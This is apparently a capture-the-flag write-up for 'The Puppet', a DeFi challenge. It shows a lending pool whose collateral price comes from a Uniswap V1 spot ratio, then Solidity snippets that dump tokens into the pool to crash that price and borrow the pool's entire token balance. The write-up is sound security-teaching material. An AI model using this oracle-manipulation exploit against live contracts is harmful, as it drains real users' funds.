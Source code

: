 # Solving "The Puppet" 🕵️‍♂️

This challenge was pretty straightforward once I figured out the core issue: **price manipulation**.

## The Problem

The key insight was understanding how the collateral calculation works. The amount of ETH needed to borrow tokens depends on the token price, which comes from the ETH/token ratio in the Uniswap pool.

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
}

function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

## The Solution

To get a really low token price, I needed to drain ETH from the pool and add more tokens to it. The `UniswapV1Exchange` contract has exactly what I needed: `tokenToEthSwapOutput`.

First, I checked how much ETH I could get for my tokens:

```solidity
uint256 ethReceived = i_exchange.getTokenToEthInputPrice(tokenBalance);
```

Then I swapped all my tokens for ETH:

```solidity
i_exchange.tokenToEthSwapOutput(ethReceived, tokenBalance, block.timestamp);
```

After manipulating the price, I only needed about `20 ETH` to borrow all the tokens in the pool:

```solidity
uint256 tokensInPool = i_token.balanceOf(address(i_pool));
bytes memory data = abi.encodeCall(i_pool.borrow, (tokensInPool, i_recovery));
(bool success,) = address(i_pool).call{value: address(this).balance}(data);
```

## Quick Tips

- Don't overthink the private key usage - it's provided for what reason, I don't know
- In Foundry, only contract deployments increase the nonce, so don't stress about keeping everything in one transaction
- I spent way too much time trying to make it all happen in a single call, but it's not necessary unless you want to overcomplicate things with forwarder contracts.
